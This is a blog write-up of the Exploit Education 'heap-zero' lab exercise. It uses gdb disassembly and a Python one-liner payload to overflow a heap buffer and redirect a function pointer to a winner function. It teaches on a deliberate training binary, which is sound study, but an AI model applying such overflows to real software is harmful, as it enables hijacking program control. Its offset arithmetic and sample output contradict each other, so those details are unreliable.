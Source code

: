```yaml
---
layout: post
title: Heap Zero Writeup - Exploit Education Lab Exercise
categories: [security, binary-exploit, reverse-engineering, friday-gems]
tags: [security, binary-exploitation, friday-gems]
comments: true
description: A comprehensive writeup that helps to understand Heap Zero exercise heap buffer overflow vulnerability with learning resources.
---
```


If you haven't set up your lab yet, feel free to check out my previous article on [Exploit.education lab setup](https://shivasurya.me/security/binary-exploit/reverse-engineering/friday-gems/2023/01/06/exploit-education-lab-setup.html)

Previous Writeup: 
1. [Stack Zero Writeup - Exploit Education Lab Exercise](https://shivasurya.me/security/binary-exploit/reverse-engineering/friday-gems/2023/01/12/exploit-education-stack-zero-exercise-writeup.html)
2. [Stack One Writeup - Exploit Education Lab Exercise](https://shivasurya.me/security/binary-exploit/reverse-engineering/friday-gems/2023/01/20/exploit-education-stack-one-exercise-writeup.html)
3. [Stack Two Writeup - Exploit Education Lab Exercise](https://shivasurya.me/security/binary-exploit/reverse-engineering/friday-gems/2023/01/26/exploit-education-stack-two-exercise-writeup.html)
4. [Stack Three Writeup - Exploit Education Lab Exercise](https://shivasurya.me/security/binary-exploit/reverse-engineering/friday-gems/2023/01/27/exploit-education-stack-three-exercise-writeup.html)
5. [Stack Four Writeup - Exploit Education Lab Exercise](https://shivasurya.me/security/binary-exploit/reverse-engineering/friday-gems/2023/01/28/exploit-education-stack-four-exercise-writeup.html)
6. [Stack Five Writeup - Exploit Education Lab Exercise](https://shivasurya.me/security/binary-exploit/reverse-engineering/friday-gems/2023/02/04/exploit-education-stack-five-exercise-writeup.html)
7. [Stack Six Writeup - Exploit Education Lab Exercise](https://shivasurya.me/security/binary-exploit/reverse-engineering/friday-gems/2023/02/26/exploit-education-stack-six-exercise-writeup.html)
8. [Format Zero Writeup - Exploit Education Lab Exercise](https://shivasurya.me/security/binary-exploit/reverse-engineering/friday-gems/2023/03/10/exploit-education-format-zero-exercise-writeup.html)
9. [Format One Writeup - Exploit Education Lab Exercise](https://shivasurya.me/security/binary-exploit/reverse-engineering/friday-gems/2023/03/31/exploit-education-format-one-exercise-writeup.html)
10. [Format Two Writeup - Exploit Education Lab Exercise](https://shivasurya.me/security/binary-exploit/reverse-engineering/friday-gems/2023/04/07/exploit-education-format-two-exercise-writeup.html)
11. [Format Three Writeup - Exploit Education Lab Exercise](https://shivasurya.me/security/binary-exploit/reverse-engineering/friday-gems/2023/04/14/exploit-education-format-three-exercise-writeup.html)
12. [Format Four Writeup - Exploit Education Lab Exercise](https://shivasurya.me/security/binary-exploit/reverse-engineering/friday-gems/2023/04/21/exploit-education-format-four-exercise-writeup.html)

### Quick Overview

Similar to Stack One, Heap Zero exercise motive is to smash the heap to modify other variables in the heap to a `hex value` and technically overwrite `function pointer` in the heap. Similar to `gets` in Stack Zero, `strcpy` function is unsafe that doesn't have bounds check, it accepts memory address to write but doesn't care about overwriting other declared function pointer in heap.

### Disassemble

Disassembling the code will get you overall idea behind the heap-zero code, One can use `gdb ./heap-zero` to start debugging it in runtime.

1. `gdb ./heap-zero`
2. Type `disassemble main` to get the disassembled code (assembly)

```assembly
   0x08048867 <+0>:     lea    ecx,[esp+0x4]
   0x0804886b <+4>:     and    esp,0xfffffff0
   0x0804886e <+7>:     push   DWORD PTR [ecx-0x4]
   0x08048871 <+10>:    push   ebp
   0x08048872 <+11>:    mov    ebp,esp
   0x08048874 <+13>:    push   ebx
   0x08048875 <+14>:    push   ecx
   0x08048876 <+15>:    sub    esp,0x10
   0x08048879 <+18>:    mov    ebx,ecx
   0x0804887b <+20>:    sub    esp,0xc
   0x0804887e <+23>:    push   0x804ac44
   0x08048883 <+28>:    call   0x8048600 <puts@plt>
   0x08048888 <+33>:    add    esp,0x10
   0x0804888b <+36>:    cmp    DWORD PTR [ebx],0x1
   0x0804888e <+39>:    jg     0x80488aa <main+67>
   0x08048890 <+41>:    sub    esp,0xc
   0x08048893 <+44>:    push   0x804ac90
   0x08048898 <+49>:    call   0x8048600 <puts@plt>
   0x0804889d <+54>:    add    esp,0x10
   0x080488a0 <+57>:    sub    esp,0xc
   0x080488a3 <+60>:    push   0x1
   0x080488a5 <+62>:    call   0x8048680 <exit@plt>
   0x080488aa <+67>:    sub    esp,0xc
   0x080488ad <+70>:    push   0x40
   0x080488af <+72>:    call   0x8049146 <malloc>
   0x080488b4 <+77>:    add    esp,0x10
   0x080488b7 <+80>:    mov    DWORD PTR [ebp-0xc],eax
   0x080488ba <+83>:    sub    esp,0xc
   0x080488bd <+86>:    push   0x40
   0x080488bf <+88>:    call   0x8049146 <malloc>
   0x080488c4 <+93>:    add    esp,0x10
   0x080488c7 <+96>:    mov    DWORD PTR [ebp-0x10],eax
   0x080488ca <+99>:    mov    eax,DWORD PTR [ebp-0x10]
   0x080488cd <+102>:   mov    DWORD PTR [eax],0x804884e
   0x080488d3 <+108>:   mov    eax,DWORD PTR [ebx+0x4]
   0x080488d6 <+111>:   add    eax,0x4
   0x080488d9 <+114>:   mov    edx,DWORD PTR [eax]
   0x080488db <+116>:   mov    eax,DWORD PTR [ebp-0xc]
   0x080488de <+119>:   sub    esp,0x8
   0x080488e1 <+122>:   push   edx
   0x080488e2 <+123>:   push   eax
   0x080488e3 <+124>:   call   0x80485b0 <strcpy@plt>
   0x080488e8 <+129>:   add    esp,0x10
   0x080488eb <+132>:   mov    eax,DWORD PTR [ebp-0x10]
   0x080488ee <+135>:   mov    eax,DWORD PTR [eax]
   0x080488f0 <+137>:   push   eax
   0x080488f1 <+138>:   push   DWORD PTR [ebp-0x10]
   0x080488f4 <+141>:   push   DWORD PTR [ebp-0xc]
   0x080488f7 <+144>:   push   0x804acb8
   0x080488fc <+149>:   call   0x80485d0 <printf@plt>
   0x08048901 <+154>:   add    esp,0x10
   0x08048904 <+157>:   mov    eax,ds:0x804c2c0
   0x08048909 <+162>:   sub    esp,0xc
   0x0804890c <+165>:   push   eax
   0x0804890d <+166>:   call   0x8048610 <fflush@plt>
   0x08048912 <+171>:   add    esp,0x10
   0x08048915 <+174>:   mov    eax,DWORD PTR [ebp-0x10]
   0x08048918 <+177>:   mov    eax,DWORD PTR [eax]
   0x0804891a <+179>:   call   eax
   0x0804891c <+181>:   mov    eax,0x0
   0x08048921 <+186>:   lea    esp,[ebp-0x8]
   0x08048924 <+189>:   pop    ecx
   0x08048925 <+190>:   pop    ebx
   0x08048926 <+191>:   pop    ebp
   0x08048927 <+192>:   lea    esp,[ecx-0x4]
   0x0804892a <+195>:   ret
```

If you carefully check the source, you might miss `winner` in the above disassembled code. You can go ahead and type `disassemble winner` in the gdb prompt,

```assembly
   0x08048835 <+0>:     push   ebp
   0x08048836 <+1>:     mov    ebp,esp
   0x08048838 <+3>:     sub    esp,0x8
   0x0804883b <+6>:     sub    esp,0xc
   0x0804883e <+9>:     push   0x804abd0
   0x08048843 <+14>:    call   0x8048600 <puts@plt>
   0x08048848 <+19>:    add    esp,0x10
   0x0804884b <+22>:    nop
   0x0804884c <+23>:    leave
   0x0804884d <+24>:    ret
```

Before taking a look at the code, if you disassembled the heap-zero using gdb to view the assembly instruction, you may notice the puts, fflush, exit and gets function calls with parameters. So basically when you hit `r` in gdb without breakpoint,

1. Greet with `Welcome to phoenix/heap-zero, brought to you by https://exploit.education` message via Puts (aka printf) method
2. It checks if an argument was passed to the program. If not, it prints a message asking for an argument and exits.
3. It allocates memory for a data structure and an fp structure using malloc.
4. It initializes the function pointer in the fp structure to point to the nowinner function.
5. It copies the argument passed to the program into the name field of the data structure using strcpy.
6. It prints the addresses of the data and fp structures and the address of the function pointed to by fp.
7. It calls the function pointed to by fp, which by default is the nowinner function that prints a message indicating that the level has not been passed.

### Primary Goal

The primary goal of this exercise is to make you familiar to overwrite function pointer with your own function pointer and therefore redirecting the program flow to achieve code execution within the binary/program. In ideal exploit world, you may overwrite the function pointer and redirect to `system` function call to achieve remote code execution and [this](https://securitylab.github.com/research/now-you-c-me-part-two/) blog post good example of reflecting this goal. In this exercise, you might want to overwrite the function pointer `fp` with `winner` function memory address.

### Memory Allocation

As you see that the `data` struct is dynamically allocated, they are allocated seperately by `malloc` different from stack frame. You can see that `data.name` (64 bytes) gets written at `0xf7e69008` and `fp` integer variable (4 bytes) at `0xf7e69050`. Now that you got the overall idea of the memory layout of the stack, you can now go ahead blow up the buffer to overwrite `fp`. If you play around with these memory layout behaviour, you may note that the char `buffer` variable writes from `$0xf7e69008` grows towards `$0xf7e69050`.

So, the overflow bytes can be calculated as `0x50` - `0x08` (hexadecimal) results in `0x42` and converted to decimal (72). So, you can overflow the buffer with 72 bytes and overwrite the `fp` variable. However, you may note that the `fp` variable is an integer and it is 4 bytes long. So, you can overflow the buffer with 72 bytes and 4 bytes of `fp` variable. So, the total bytes to overflow is `72 + 4 = 76` bytes. Now, you can go ahead and generate the payload with 76 bytes of `A` and 4 bytes of `fp` variable. The remaining 4 bytes of `fp` variable can be overwritten with `winner` function memory address.

To get the winner memory address, you can use gdb to disassemble the `winner` function and note down the starting address of the function. You can use `disassemble winner` command in gdb to disassemble the `winner` function. The starting address of the `winner` function is `0x08048835`. The address `0x08048835` can be represented in little endian format as `\x35\x88\x04\x08`. So, the final payload would be `76 bytes of A + 4 bytes of fp variable + 4 bytes of winner function address`. You can use python to generate the payload as follows,

```python
print('A'*72 + '\x35\x88\x04\x08')
```

### Exploit

So, the final exploit would be as follows,

```assembly
(gdb) r $(python -c "print('A'*72 + '\x35\x88\x04\x08')")
Starting program: /opt/phoenix/amd64/heap-zero <<< $(python -c "print('A'*64 + '\x9d\x06\x40')")
Welcome to phoenix/heap-zero, brought to you by https://exploit.education
data is at 0xf7e69008, fp is at 0xf7e69050, will be calling 0x08048835
Congratulations, you have passed this level
```

There you go! 🎉 You've officially `pwned` the `binary` and possibly you could control the program flow and may 
eventually perform remote code execution in the system. 🪲

![buffer-overflow-meme](/assets/media/what-does-that-mean-i-have-a-buffer-overflow-vulnerability.png)

### Source and Reference:

1. Heap Zero Exercise: [Exploit Education](https://exploit.education/phoenix/heap-zero/)

### Closing Note:

I hope this post is helpful for vulnerability researcher 🔍 & code reviewers, For bugs,hugs & discussion, DM in [Twitter](https://twitter.com/sshivasurya). Opinions are my own and not the views of my employer.